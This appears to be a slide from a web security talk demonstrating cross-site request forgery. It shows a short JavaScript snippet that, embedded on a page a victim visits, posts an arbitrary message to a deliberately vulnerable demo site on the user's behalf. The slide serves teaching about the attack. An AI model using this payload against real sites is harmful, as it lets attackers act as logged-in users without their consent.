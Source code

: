 
## Live Fire: CSRF

	!javascript
	// embedded on any old page you can get the victim
	// to visit
	console.log('muahaha...');
	$.post(
		'http://vcwa.veryveryvulnerable.com/stored',
		{
			message: 'POST with any payload the attacker 
				   wants... on behalf of a real user...'
		}
	);

[http://jthess.com/vvv/csrf.html](http://jthess.com/vvv/csrf.html)
		
---

<img src="images/confused.png" />
